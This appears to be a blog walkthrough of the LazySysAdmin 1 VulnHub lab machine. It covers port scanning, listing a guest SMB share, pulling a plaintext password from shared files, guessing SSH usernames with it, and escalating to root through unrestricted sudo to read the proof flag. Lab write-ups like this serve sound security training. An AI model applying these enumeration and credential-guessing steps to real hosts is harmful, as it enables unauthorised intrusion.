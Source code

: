 ```yaml
---
title: "VulnHub - LazySysAdmin1 Walkthrough"
date: 2020-10-1
tags: [vulnhub, walkthrough]
header:
  image: "/images/lazysysadmin1-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# VulnHub- LazySysAdmin 1 Walkthrough


Hello, everyone. Today I will share the Boot to Root process in the LazySysAdmin 1 vulnerable machine. I will share only the successful way. There will not be a lot of information.

## Information Gathering

We are starting with a **Nmap scan** to find open ports and services.

```
root@kali:~/LazySysAdmin# nmap -p- -T4 -A lazysysadmin.local  
...  
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
..  
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))  
|_http-generator: Silex v2.2.7  
| http-robots.txt: 4 disallowed entries  
|_/old/ /test/ /TR2/ /Backnode_files/  
|_http-server-header: Apache/2.4.7 (Ubuntu)  
|_http-title: Backnode  
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
3306/tcp open mysql MySQL (unauthorized)  
6667/tcp open irc InspIRCd  
...
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>,
...
| smb-security-mode:  
| account_used: guest  
| authentication_level: user  
...
```


## Enumeration
We will see that there are a lot of open ports. I will start first HTTP enumeration. I will go to the website. There is not anything special on code or on the interface of the website. Then I forward to source code. Also, again I cannot find anything valuable.

I will see from Nmap scanning that there is `robots.txt` file. So I open this location. There is some text.
```
User-agent: *  
Disallow: /old/  
Disallow: /test/  
Disallow: /TR2/  
Disallow: /Backnode_files/
```

I will try to enter `/old/` and `/test/` directories. Both of them are empty. I will try the other two. Again I don't find anything different.

Next, I am use **`searchsploit`** to look for a vulnerability in Apache/2.4.7, but there is not any.

I move forward. From Nmap scanning result I know that  I can open SMB session with `guest` privileges. So I try it.
```
root@kali:~/LazySysAdmin# smbclient -L //lazysysadmin.local//  
Enter WORKGROUP\root's password: password
  
Sharename Type Comment  
--------- ---- -------  
print$ Disk Printer Drivers  
share$ Disk Sumshare  
IPC$ IPC IPC Service (Web server)  
Reconnecting with SMB1 for workgroup listing.  
```

I saw that there is a `share` folder. I forward it.
```
root@kali:~/LazySysAdmin# smbclient //lazysysadmin.local/share$  
Enter WORKGROUP\root's password: password 
Try "help" to get a list of possible commands.  
smb: \> dir  
. D 0 Tue Aug 15 15:05:52 2017  
.. D 0 Mon Aug 14 16:34:47 2017  
wordpress D 0 Tue Aug 15 15:21:08 2017  
Backnode_files D 0 Mon Aug 14 16:08:26 2017  
wp D 0 Tue Aug 15 14:51:23 2017  
deets.txt N 139 Mon Aug 14 16:20:05 2017  
robots.txt N 92 Mon Aug 14 16:36:14 2017  
todolist.txt N 79 Mon Aug 14 16:39:56 2017  
apache D 0 Mon Aug 14 16:35:19 2017  
index.html N 36072 Sun Aug 6 09:02:15 2017  
info.php N 20 Tue Aug 15 14:55:19 2017  
test D 0 Mon Aug 14 16:35:10 2017  
old D 0 Mon Aug 14 16:35:13 2017  

smb: \> get deets.txt    
...
smb: \> get todolist.txt  
... 
smb: \> cd wordpress\  
smb: \wordpress\>
```

Then I find some files which I think that are interesting. I download `deets.txt`,  `todolist.txt` and I move forward to `wordpress` folder.
From these text files I learn that Web Server is shared with the guests and there is a password - `12345` which is  belong to one of the accounts in the victim.
Also I learnt that there is a `wordpress` website too. I open `lazysysadmin.local/wordpress/` location.
I saw that there is a post and it says that "his/her name is togie". Also the post was shared by `Admin`. 

## Exploit
I try to create an SSH session with this information
```
root@kali:~/LazySysAdmin# ssh admin@lazysysadmin.local  
...
admin@lazysysadmin.local's password:  12345
Permission denied, please try again.  
...
root@kali:~/LazySysAdmin# ssh lazysysadmin@lazysysadmin.local  
...
lazysysadmin@lazysysadmin.local's password:  12345
Permission denied, please try again.  
...
root@kali:~/LazySysAdmin# ssh togie@lazysysadmin.local  
...
togie@lazysysadmin.local's password: 12345  
...
togie@LazySysAdmin:~$
```

Bingo! We gain shell access!

## Privilege Escalation
We see that `togie` has all the privileges, so I don't to do extra enumeration to get `root` access.
``` 
togie@LazySysAdmin:~$ sudo -l  
[sudo] password for togie: 12345 
...
User togie may run the following commands on LazySysAdmin:  
(ALL : ALL) ALL  
togie@LazySysAdmin:~$ sudo su root  
root@LazySysAdmin:/home/togie# cd /root/  
root@LazySysAdmin:~# ls  
proof.txt  
root@LazySysAdmin:~# cat proof.txt  
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851  
  
  
Well done :)  
  
Hope you learn't a few things along the way.  
  
Regards,  
  
Togie Mcdogie  
  
  
  
  
Enjoy some random strings  
  
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851  
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7  
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02  
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu  
root@LazySysAdmin:~#
```
Victory! We did it. Thank you for reading.